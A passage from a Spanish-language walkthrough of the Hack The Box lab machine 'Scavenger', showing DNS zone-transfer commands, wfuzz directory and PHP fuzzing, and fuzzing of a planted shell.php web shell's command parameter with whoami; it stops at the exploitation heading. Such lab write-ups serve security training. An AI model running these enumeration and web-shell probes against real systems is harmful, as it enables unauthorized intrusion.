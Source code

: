 
Ya podemos añadir estos dominios en el `/etc/hosts`.

```{r, echo = FALSE, fig.cap="hosts despues del sqli", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts3.png")
```

### Ataque de transferencia de zona Part 2 {-}
![scaveer-hosts3](/assets/images/scavenger-hosts3.png) 

```bash
dig @10.10.10.155 justanotherblog.htb axfr
dig @10.10.10.155 pwnhats.htb axfr
dig @10.10.10.155 rentahacker.htb axfr
```

El ultimo dominio nos muestra un dominio turbio `sec03.rentahacker.htb`. Lo añadimos nuevamente en el `/etc/hosts` y por firefox
nos conectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros *Haxxors*. Si es el caso, fuzzeamos la pagina.

### Web Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ
```

Aqui hay un poco de todo. Intentamos fuzzear por archivos **PHP**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php
```

Ya encontramos un fichero **shell.php**. Visitamos la pagina por firefox y efectivamente parece una shell pero no tenemos el nombre
del comando usado para ejecutar los comandos. Lo buscamos con **WFUZZ** diciendole de ocultar las respuestas que retornan 0 palabras.

```bash
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
```

encontramos el comando `hidden`



## Explotacion de vulnerabilidad & Ganando acceso {-}
